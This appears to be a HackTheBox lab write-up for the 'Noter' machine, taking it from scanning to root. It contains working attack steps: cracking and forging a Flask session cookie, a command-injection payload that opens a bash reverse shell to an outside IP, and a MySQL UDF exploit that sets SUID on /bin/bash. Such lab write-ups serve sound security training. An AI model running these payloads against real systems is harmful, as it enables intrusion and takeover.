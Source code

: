 ```yaml
---
title: HTB | Noter
author: Zeropio
date: 2022-08-29
categories: [Pentesting, HackTheBox]
tags: [htb, linux, medium, machines]
permalink: /pentesting/htb/machines/noter
image:
  path: /assets/img/hackthebox/card/Noter.png
  width: 800
  height: 500
---
```


# Fingerprinting

The nmap gives us:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

If we created and account we can see a cookie after login.

# Footprinting

The **anonymous** user for FTP doesn’t work.

We can check the cookie we have: `eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiemVybyJ9.Ywyj5A.uzkuRLWLxKI9ty3BHCUOWVr9Szo` . We can use `flask-unsign`, from Python, to decrypt the cookie.

```console
zero@pio$ flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiemVybyJ9.Ywyj5A.uzkuRLWLxKI9ty3BHCUOWVr9Szo'
[*] Session decodes to: {'logged_in': True, 'username': 'zero'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```

We must use `—unsign`  to specify that we are using a wordlist, and `--no-literal-eval` to allow the cookie as a string (if not we get an error). We can see that the output differs from a invalid password than an invalid username, so we can try to get a list of valid users. Let’s use `hydra` for this:

```console
zero@pio$ hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'test' 10.10.11.160 -s 5000 http-post-form '/login:username=^USER^&password=test:S=<div class="alert alert-danger">Invalid login</div>'

[5000][http-post-form] host: 10.10.11.160   login: blue   password: test
```

Now we can use flask-unsign to generate the cookie, using the same format as our cookie:

```console
zero@pio$ flask-unsign --sign --secret 'secret123' --cookie "{'logged_in': True, 'username': 'blue'}"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YwypQA.7rj51Sgyf-usb-tvmGo4CKREIkk
```

And now we are in the blue user account:

![Untitled](/assets/img/hackthebox/labs/noter/Untitled.png)

Inside the premium notes, we can see the credentials `blue:blue@Noter!` . We can test the credentials works:

```console
zero@pio$ tp blue@10.10.11.160                                                                      
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
```

We can get a pdf with the password policy. There we can see that the default password is `username@site_name!`. In the note we can saw that is signed by the **ftp_admin** user, if we try the default password (`ftp_admin@Noter!`):

```console
zero@pio$ ftp ftp_admin@10.10.11.160
```

Inside we can see two zip files. Inside of them are the source code of the web. In one of them can be found the following lines:

```python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```

As well as the secret:

```python
if __name__ == '__main__':
    app.secret_key='secret123'
    app.run(host="0.0.0.0",debug=False)
```

In the other, we have a non-default credentials:

```python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```

We cannot use the credentials for SSH. Also, the machine doesn’t have an opened port of MySQL so we cannot connect to it.

Going back to the web, we can see we can export notes from an URL to the server. In the source code, the app access this through a get. We will create a **shell.md** file with the content `--';bash -i >& /dev/tcp/10.10.16.44/443 0>&1;'—` . Open a netcat, and launch the file. Now we are inside the system. 

# Privilege Escalation

We can see is vulnerable to **CVE-2021-3560**, but using this [PoC](https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/poc.sh) we see that the machine doesn’t have **Gnome-Control-Center**, necessary for the exploit.

We can try another path. The MySQL version is also vulnerable. Using this [exploit](https://www.exploit-db.com/exploits/1518) we can make it work. Download the exploit into the machine and follow the exploit. First, compile it:

```console
svc@noter:~$ gcc -g -c 1518.c
svc@noter:~$ gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```

Following the instructions (we must change the path we upload the script from the exploitdb):

```console
svc@noter:~$ mysql -u'root' -p'Nildogg36'
MariaDB [(none)]> use mysql;
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/home/svc/1518.so'));
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/1518.so';
MariaDB [mysql]> create function do_system returns integer soname '1518.so';
MariaDB [mysql]> select * from mysql.func;
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
MariaDB [mysql]> exit
```

If everything works:

```console
svc@noter:~$ bash -p
bash-5.0# whoami
	root
```
